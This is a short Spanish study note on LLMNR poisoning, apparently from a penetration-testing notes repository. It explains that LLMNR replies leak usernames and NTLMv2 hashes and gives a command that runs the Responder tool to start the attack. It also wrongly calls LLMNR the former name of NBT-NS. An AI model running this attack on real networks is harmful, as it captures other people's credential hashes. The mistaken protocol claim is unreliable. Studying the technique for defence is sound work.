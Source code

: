 ### Qué es LLMNR?

- Se usa para identificat hosts cuando el DNS falla.
- Antes se conocía como NBT-NS
- El servicio utiliza el 'username' de un usuario y un hash NTLMv2 cuando responde.

# Explicación gráfica del vector de ataque

<img src="https://i.imgur.com/QQokhLx.png" />

# Iniciando Ataque (Responder)

```
python /usr/share/responder.py -I tun0 -rdw
```

<img src="https://i.imgur.com/ZKyYZR6.png" />
